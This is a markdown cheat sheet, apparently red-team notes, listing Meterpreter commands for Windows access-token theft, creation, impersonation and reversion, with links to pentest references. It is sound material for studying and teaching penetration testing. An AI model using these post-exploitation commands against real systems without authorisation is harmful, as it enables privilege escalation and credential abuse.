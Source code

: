 # Metasploit

## Help Menu

TODO: Fill this info

```
meterpreter > load incognito

Incognito Commands
==================

    Command              Description
    -------              -----------
    add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    snarf_hashes         Snarf challenge/response hashes for every token
```

## 01 - Steal Token

```
meterpreter > steal_token <pid>
```

Enumerate current user and process identifier.

```
meterpreter > getuid

meterpreter > getpid
```

Drop token to revert back to original self.

```
meterpreter > drop_token
```

## 02 - Make Token

```
meterpreter > run post/windows/manage/make_token domain=<domain> username=<username> password=<password>
```

Enumerate current user with privileges.

```
meterpreter > getuid

meterpreter > getprivs
```

## 03 - Token Impersonation

List available usernames as delegation tokens to impersonate.

```
meterpreter > list_tokens -u

meterpreter > run post/windows/gather/enum_tokens

meterpreter > run post/windows/gather/enum_domain_tokens
```

List available groups as delegation tokens to impersonate.

```
meterpreter > list_tokens -g
```

Impersonate token.

```
meterpreter > impersonate_token "<DOMAIN>\<username>"
```

Enumerate current user with privileges.

```
meterpreter > getuid

meterpreter > getprivs
```

## 04 - Revert Token

Revert back to original privileges.

```
meterpreter > rev2self
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Make Token Manage Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/make_token.md)

### Pentest Lab

- [Pentestlab Blog: Token Stealing and Incognito](https://pentestlab.blog/2012/08/07/token-stealing-and-incognito/)

### NCCGroup

- [NCCGroup: Demystifying Cobalt Strike’s "make_token" Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

### DMCXBlue

- [DMCXBlue: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)

### Exploit Database

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)